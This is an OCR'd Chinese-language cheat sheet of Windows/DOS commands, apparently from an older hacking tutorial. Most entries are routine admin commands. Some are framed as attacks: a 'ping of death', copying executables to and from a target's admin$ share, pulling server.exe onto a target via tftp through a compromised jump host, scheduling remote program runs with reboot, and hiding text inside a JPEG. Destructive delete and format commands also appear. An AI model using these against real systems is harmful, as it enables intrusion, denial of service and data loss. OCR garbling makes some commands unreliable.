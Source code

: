 　　netstat -a 查看开启了哪些端口,常用netstat -an
　　netstat -n 查看端口的网络连接情况，常用netstat -an
　　netstat -v 查看正在进行的工作
　　netstat -p 协议名 例：netstat -p tcq/ip 查看某协议使用情况
　　netstat -s 查看正在使用的所有协议使用情况
　　nbtstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名
　　tracert -参数 ip(或计算机名) 跟踪路由（数据包），参数：“-w数字”用于设置超时间隔。
　　ping ip(或域名) 向对方主机发送默认大小为32字节的数据，参数：“-l[空格]数据包大小”；“-n发送数据次数”；“-t”指一直ping。
　　ping -t -l 65550 ip 死亡之ping(发送大于64K的文件并一直ping就成了死亡之ping)
　　ipconfig (winipcfg) 用于windows NT及XP(windows 95 98)查看本地ip地址，ipconfig可用参数“/all”显示全部配置信息
　　tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
　　kill -F 进程名 加-F参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
　　del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如“DEL/AR *.*”表示删除当前目录下所有只读文件，“DEL/A-S *.*”表示删除当前目录下除系统文件以外的所有文件
　　del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）
　　move 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖
　　fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到3st.txt文件中，"> "和"> >" 是重定向命令
　　at id号 开启已注册的某个计划任务
　　at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止
　　at id号 /delete 停止某个已注册的计划任务
　　at 查看所有的计划任务
　　at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机
　　finger username @host 查看最近有哪些用户登陆
　　telnet ip 端口 远和登陆服务器,默认端口为23
　　open ip 连接到IP（属telnet登陆后的命令）
　　telnet 在本机上直接键入telnet 将进入本机的telnet
　　copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件
　　copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下
　　copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件
　　copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：
　　xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件
　　用参数/e才可连目录下的子目录一起复制到目标地址下。
　　tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送
　　tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机
　　ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)
　　route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface
　　arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息
　　start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令
　　mem 查看cpu使用情况
　　attrib 文件名(目录名) 查看某文件（目录）的属性
　　attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性
　　dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间
　　date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间
　　set 指定环境变量名称=要指派给变量的字符 设置环境变量
　　set 显示当前所有的环境变量
　　set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量
　　pause 暂停批处理程序，并显示出：请按任意键继续....
　　if 在批处理程序中执行条件处理（更多说明见if命令及变量）
　　goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）
　　call 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?）
　　for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）
　　echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置
　　echo 信息 在屏幕上显示出信息
　　echo 信息 >> pass.txt 将"信息"保存到pass.txt文件中
　　findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello
　　find 文件名 查找某文件
　　title 标题名字 更改CMD窗口标题名字
　　color 颜色值 设置cmd控制台前景和背景颜色；0=黑、1=蓝、2=绿、3=浅绿、4=红、5=紫、6=黄、7=白、8=灰、9=淡蓝、A=淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白
　　prompt 名称 更改cmd.exe的显示的命令提示符(把C:、D:统一改为：EntSky )
　　ver 在DOS窗口下显示版本信息
　　winver 弹出一个窗口显示版本信息（内存大小、系统版本、补丁版本、计算机名）
　　format 盘符 /FS:类型 格式化磁盘,类型:FAT、FAT32、NTFS ,例：Format D: /FS:NTFS